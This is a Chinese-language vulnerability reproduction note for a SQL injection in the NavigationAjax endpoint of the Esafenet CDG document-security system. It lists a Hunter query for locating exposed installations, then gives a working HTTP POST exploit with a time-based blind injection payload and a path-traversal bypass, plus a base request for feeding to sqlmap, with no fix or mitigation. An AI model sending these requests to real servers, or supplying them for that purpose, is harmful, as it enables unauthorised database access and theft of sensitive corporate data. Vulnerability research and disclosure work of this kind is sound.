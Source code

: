# 亿赛通电子文档安全管理系统NavigationAjax存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统NavigationAjax存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/U6wPZQCifyuPkb46/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-143086.png)

# 四、漏洞复现
```plain
POST /CDGServer3/js/../NavigationAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

command=nav&id=-999'waitfor delay '0:0:3'--+&name=&openId=
```

![1711815896185-51f664d1-4d80-4cdd-ac3d-46055a015edb.png](./img/U6wPZQCifyuPkb46/1711815896185-51f664d1-4d80-4cdd-ac3d-46055a015edb-675720.png)

sqlmap

```plain
POST /CDGServer3/js/../NavigationAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

command=nav&id=1&name=&openId=
```

![1711815990103-01f2eb07-4c45-4456-9854-a13bb709e0c7.png](./img/U6wPZQCifyuPkb46/1711815990103-01f2eb07-4c45-4456-9854-a13bb709e0c7-010306.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rkfurtrt642vfvu6>